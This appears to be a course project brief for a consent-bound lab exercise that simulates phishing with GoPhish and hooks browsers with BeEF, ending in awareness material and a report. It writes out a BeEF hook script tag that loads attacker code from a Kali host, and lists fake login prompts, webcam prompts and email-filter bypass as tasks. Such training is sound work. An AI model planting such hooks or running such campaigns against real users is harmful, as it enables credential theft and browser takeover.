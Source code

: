 ## Final Project: Human Weakness Exploitation via BeEF & GoPhish  
**Theme**: *Simulating Phishing and Post-Click Exploitation*

### **Objectives**

- Design a targeted phishing campaign.
- Capture clicks and interaction data via GoPhish.
- Use BeEF to hook a browser and demonstrate what an attacker could do post-click.
- Create a report + awareness material explaining the attack and how to prevent it.

---

### **Project Steps**

#### 1. Set Up Lab Environment
- Kali Linux with:
  - BeEF installed (`/usr/share/beef-xss`)
  - GoPhish (download from [https://github.com/gophish/gophish](https://github.com/gophish/gophish))
- Optional: Metasploitable VM or any sandboxed target for realism
- Ensure all testing is done in a **contained environment with full consent**.

---

#### 2. GoPhish Campaign Setup
- Create a **phishing email** with:
  - A believable message (e.g., "Important Update Required")
  - A link to a fake login page or document portal

- Landing page should include the **BeEF hook**:
  ```html
  <script src="http://<your-kali-ip>:3000/hook.js"></script>
  ```

- Start GoPhish, configure your SMTP settings, and launch the campaign.


#### 3. BeEF Exploitation Phase
- Once the user lands on the page, BeEF will show a **hooked browser**.
- Demonstrate basic post-exploitation:
  - Alert box
  - Browser fingerprinting
  - Fake login prompt
  - Webcam prompt (but **do not use** it unless it's your own machine)

#### 4. Metrics to Collect
- Emails sent / opened
- Links clicked
- Hooked sessions in BeEF
- Commands successfully run in BeEF
- Time-to-click stats

#### 5. Awareness & Defense Material
Explain:
  - How this attack works
  - Red flags to watch for
  - Technical and non-technical defenses (e.g., email filtering, user training, browser hardening)


#### 6. Final Report
- Executive Summary
- Attack Simulation Details
- Ethical Boundaries Maintained
- GoPhish Campaign Overview
- BeEF Post-Click Actions
- Defense Recommendations

### Ethics & Rules
- No phishing real users without explicit consent
- No persistence, malware, or real data exfiltration
- All email recipients must be part of the exercise and aware of the simulation either before or immediately after
- Hooked browsers must be student-owned or lab machines


- Integrate a **custom payload** in BeEF
- Bypass a basic email filter or browser security warning (safely)
- Create a **mock SOC alert** based on the campaign
